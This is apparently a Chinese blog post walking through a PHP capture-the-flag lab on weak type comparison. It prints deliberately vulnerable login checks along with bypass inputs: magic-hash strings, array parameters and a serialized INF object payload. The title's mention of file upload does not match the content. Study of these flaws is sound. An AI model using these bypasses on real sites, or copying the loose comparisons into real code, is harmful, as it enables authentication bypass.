 ```yaml
---
title: PHP文件上传漏洞
date: 2022-01-17 22:05:03
tags:
      - PHP
      - 安全
      - 靶场练习
categories:
      - 安全
description:
keywords:
top_img: /img/PHP_BUG.jpg
cover: /img/PHP_BUG.jpg
---
```


# PHP

### \=\=和\=\=\=

== 是比较数值，不比较类型

```php
var_dump(998=="998"); true

var_dump(998=="998ab"); true

var_dump(0=="haha"); true

var_dump(123===123); true
```



mdpass的第一题

```php
md4 md5加密都有可能出现一个0e开头
for($i=1;;$i++){
    //$r = 0e1 0e2 ... 0e251288019
    $r = "0e".$i;
    //$md4 = 0e874956163641961271069404332409 
    $md4 = hash("md4",$r);
    echo '<br/>';
    echo $i;
    if(preg_match("/^0e[0-9]*$/", $md4)){
        echo "md4加密前".$r;
        echo "md4加密后".$md4;
        break;
    }
}
```

所以使用md4的漏洞机制

>0e251288019
>0e001233333333333334557778889

![image-20220121131916793](D:\Code\pojo\Blog\BlogHexo\public\img\PHPBug-2.png)

```php
 <?php
    error_reporting(0);
    highlight_file("pass-02.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = $_GET['user'];
        $pass = $_GET['pass'];

        if($user != $pass && md5($user) == md5($pass)){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-03.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?> 
```

第二关是md5的

可以看出上面的要求我们用户名和密码不一样但是md5是一样的所以只要找出两个0e开头就可以了,下面这些随便挑两个不一样的就行

```
md5弱类型比较
IHKFRNS 0e256160682445802696926137988570
QLTHNDT 0e405967825401955372549139051580
QNKCDZO 0e830400451993494058024219903391
3908336290 0e807624498959190415881248245271
4011627063 0e485805687034439905938362701775
4775635065 0e998212089946640967599450361168
0e215962017 0e291242476940776845150308577824
aabg7XSs 0e087386482136013740957780965295
aabC9RqS 0e041022518165728065344349536299
```

或者使用数组跳过也可以

## ==因为数组md5后是null==

> /pass-02.php?user[]=1&pass[]=2



第三题

```php
 <?php
    error_reporting(0);
    highlight_file("pass-03.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = $_GET['user'];
        $pass = $_GET['pass'];

        if(!ctype_alpha($user) && !is_numeric($pass) && md5($user) == md5($pass)){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-04.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?> 
```

用函数判断一个是纯英文一个是纯数字同样使用弱命令即可

> ?pass=IHKFRNS&user=3908336290



第四题

```php
<?php
    error_reporting(0);
    highlight_file("pass-04.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = $_GET['user'];
        $pass = $_GET['pass'];

        if($user != $pass && md5($user) == md5(md5($pass))){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-05.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?>
```

因为user!=pass所以不能两个都是数组又因为pass被md5两次所以不能使用弱密码了

采用pass为数组,user为空即可

>?pass[]=1&user=

第四题和第五题一样



第六题比较严厉,只能遍历出弱比较了

```php
 <?php
    error_reporting(0);
    highlight_file("pass-06.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = (string)$_GET['user'];
        $pass = (string)$_GET['pass'];

        if($user != $pass && md5($user) == md5(md5($pass))){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-07.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?> 
```

因为将类型转化为String所以array,null,INF,NAN都不行

> user=240610708&pass=aawBzC
>
> 
>
> 240610708---aawBzC

![image-20220121134720525](D:\Code\pojo\Blog\BlogHexo\public\img\PHPBug-3.png)

第七题还是用数组过滤



第八题涉及到反序列化漏洞

> auth=O:4:"auth":2:{s:4:"user";d:INF;s:4:"pass";d:INF;}

```php
 <?php
    error_reporting(0);
    highlight_file("pass-08.php");

    class auth{
        public $user;
        public $pass;

        public function __destruct(){

            $this->user = (string)$this->user;
            if(strlen($this->user) > 3 || strlen($this->pass) >3){
                echo "level1 is fail~~~";
            }
            if($this->user !== $this->pass && $this->user != $this->pass && md5($this->user) === md5($this->pass)){
                echo "success!<br>";    
                echo file_get_contents("flag.txt");
            }else{
                echo "level2 is fail~~~";
            }
        }
    }
    unserialize($_POST['auth']);
?> 
```


